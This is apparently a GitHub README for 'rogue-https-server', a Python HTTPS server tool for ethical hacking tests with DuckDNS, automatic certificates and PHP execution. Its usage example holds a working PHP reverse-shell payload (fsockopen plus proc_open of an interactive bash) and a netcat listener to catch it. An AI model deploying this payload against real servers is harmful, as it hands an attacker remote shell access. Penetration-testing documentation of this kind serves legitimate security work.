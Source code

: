 # rogue-https-server.py
Rogue HTTPS Server is a tool that allows you to create a Python 3.10/3.11 HTTPS/SSL server to receive encrypted connections, serve content, and run PHP scripts.

![1-photo](https://github.com/ajacobhack/rogue-https-server/assets/99199970/79a9f034-23a8-4853-bd9e-d4a245464b92)


Rogue HTTPS Server is a powerful and easy-to-use tool that allows you to create an HTTPS/SSL server with TLS in Python 3.10/3.11, primarily intended for ethical hacking tests that require a server with encrypted connections that may be able to connect to applications websites strictly configured for HTTPS traffic. It provides additional options such as assigning a free DNS to the specified IP address, automatic pem certificate creation, static server, and PHP file execution.

### **Characteristics**

- **HTTPS/SSL Server**: Creates a TCP/IP server at the specified IP address and port to listen for HTTPS/SSL connections, including 443.
- **Free DNS Support**: Assign a free subdomain to the IP address using DuckDNS to access your server more conveniently.
- **PHP code execution**: Executes PHP code on the server to perform dynamic and custom actions in your web applications.
- **Static File Management**: Serve static files, such as HTML, CSS, JavaScript, images and more, to display content on your server.

## Use

1. Clone the Rogue HTTPS Server repository to your local machine.
    
     ```
     git clone https://github.com/ajacobhack/rogue-https-server.git
     ```
    
2. Navigate to the project directory: `cd rogue-https-server`.
3. Optional: If you want to assign free DNS using DuckDNS, make sure you have a DuckDNS subdomain and token.
4. Run the server using the following command:
    
     ```bash
     python3 rogue-https-server.py -i <IP_ADDRESS> -p <PORT> -s <SUBDOMAIN> -t <DUCKDNS_TOKEN>
     ```
    
     - `<IP_ADDRESS>`: The IP address on which you want the server to listen for incoming connections.
     - `<PORT>`: The port on which you want the server to listen for incoming connections.
     - `<SUBDOMAIN>` (optional): The subdomain you want to assign for free DNS using DuckDNS.
     - `<DUCKDNS_TOKEN>` (optional): The DuckDNS token needed to assign the subdomain.
5. The server will start listening for incoming connections on the specified IP address and port. If a DuckDNS subdomain and token is provided, the free DNS will be assigned using DuckDNS for the specified subdomain.
6. When an HTTP/HTTPS request is received, the server will respond as follows:
- If the request corresponds to an existing PHP file, the PHP code will be executed and the output will be sent to the client.
- If the request corresponds to an existing static file (HTML, CSS, JS, images, etc.), the content of the file will be sent to the client.
- If the request does not correspond to any existing file, a "404 Not Found" error response will be sent to the client.
- 
![2023-06-05 16_50_16-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/666c0bad-b23a-4ad6-a119-ac43246620b6)

![2023-06-05 16_51_54-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/a37a014d-e92b-4d76-adac-a4d6bb0db105)

![2023-06-05 16_52_31-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/e02c0e42-060d-4bfb-920e-9d285b10718b)


## Additional features

- **Automatic generation of PEM files**: If the server does not find the `cert.pem` and `key.pem` files in the working directory, it will automatically generate these files using OpenSSL.
- **Optional Free DNS Configuration**: You can provide a DuckDNS subdomain and token to assign free DNS using DuckDNS. This setting is optional and you can skip it if you don't want to use this functionality.

### **Example of use**

Suppose we want to run PHP code on the server and get an interactive shell connection to the server. Here is an example of how it can be achieved using the server:

1. Run the server at IP address **`127.0.0.1`** and port `443`:
    
     ```bash
     python3 rogue-https-server.py -i 127.0.0.1 -p 443
     ```
    
2. Create a PHP file with the following content and save it as **`shell.php`**:
    
     ```php
     <?php
     $sock = fsockopen("127.0.0.1", 4242); /*CHANGE IP and PORT*/
     $descriptors = array(
         0 => $sock,
         1 => $sock,
         2 => $sock
     );
     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
     ?>
     ```
    
3. Open your web browser and visit **`https://127.0.0.1:443/shell.php`**.
4. In a separate terminal session, start a netcat server to listen on port **`4242`**:
    
     ```bash
     nc -lnvp 4242
     ```
    
5. When you access **`https://127.0.0.1:443/shell.php`** in your browser, the server will execute the PHP code and open a shell connection in the netcat session.

![shell php con exit](https://github.com/ajacobhack/rogue-https-server/assets/99199970/57864150-711f-405e-bc91-fbfbab172a6e)

### **Contribution**

We welcome your contributions to Rogue HTTPS Server! If you encounter any issues, have an idea for improvement, or want to add new features, feel free to open an issue or submit a pull request on the official repository.

### **License**

This project currently does not have an open license.

### **Contact**

If you have any questions or suggestions, feel free to contact our team. You can email us at **[info@roguehttpsserver.com](mailto:info@roguehttpsserver.com)** or join our community on the Discord channel **[Rogue HTTPS Server Community](https://discord .gg/roguehttpsserver)**. We look forward to helping you!

### **Thanks**

I want to thank the community of developers and contributors who have made this project possible. Your contributions and feedback have been instrumental in improving Rogue HTTPS Server and providing a useful and reliable tool.

### **Legal warning**

Rogue HTTPS Server is a tool designed to be used for development and ethical purposes only. We are not responsible for any misuse of this tool. Make sure to comply with local laws and regulations when using Rogue HTTPS Server.
